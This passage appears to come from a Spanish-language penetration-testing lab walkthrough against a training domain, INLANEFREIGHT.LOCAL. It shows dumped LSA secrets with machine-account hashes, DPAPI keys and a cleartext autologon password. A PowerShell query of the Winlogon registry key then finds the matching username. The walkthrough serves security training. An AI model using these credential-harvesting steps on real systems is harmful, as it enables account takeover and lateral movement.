 ```r
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc

Local name : ACADEMY-AEN-MS0 ( S-1-5-21-1020326033-369054202-3290056218 )
Domain name : INLANEFREIGHT ( S-1-5-21-2814148634-3729814499-1637837074 )
Domain FQDN : INLANEFREIGHT.LOCAL

Policy subsystem is : 1.18
LSA Key(s) : 1, default {13764b01-b89c-8adf-69ec-8937ee43821e}
  [00] {13764b01-b89c-8adf-69ec-8937ee43821e} 587be7dcfb75bb9ebb0c5c75cf4afb4488e602f9926f3404a09ecf8ba20b04e7

Secret  : $MACHINE.ACC
cur/text: -2d"GC)[+6,[+mC+UC5KXVoH>j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(<7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8
old/text: -2d"GC)[+6,[+mC+UC5KXVoH>j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(<7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8

Secret  : DefaultPassword
cur/text: DBAilfreight1!

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 37 62 35 26 80 4c 6b 2f 11 ca 06 25 ab 97 21 3f 84 f8 74 fa bc 69 a1 c4 37 2b df f8 cd 6c 8f 0a 8a d9 67 e9 42 cf 4f 96
    full: 37623526804c6b2f11ca0625ab97213f84f874fabc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
    m/u : 37623526804c6b2f11ca0625ab97213f84f874fa / bc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
old/hex : 01 00 00 00 51 9c 86 b4 cb dc 97 8b 35 9b c0 39 17 34 16 62 31 98 c1 07 ce 7d 9f 94 fc e7 2c d9 59 8a c6 07 10 78 7c 0d 9a 56 ce 0b
    full: 519c86b4cbdc978b359bc039173416623198c107ce7d9f94fce72cd9598ac60710787c0d9a56ce0b
    m/u : 519c86b4cbdc978b359bc039173416623198c107 / ce7d9f94fce72cd9598ac60710787c0d9a56ce0b

Secret  : NL$KM
cur/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
old/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
```

Encontramos una contraseña configurada pero sin nombre de usuario asociado. Esto parece ser para una cuenta configurada con autologon, así que podemos consultar el Registro para encontrar el nombre de usuario.



```r
PS C:\Users\ilfserveradm> Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"

DefaultUserName : mssqladm
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
                  NT\CurrentVersion\Winlogon\
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
PSChildName     : Winlogon
PSDrive         : HKLM
PSProvider      : Microsoft.PowerShell.Core\Registry
```
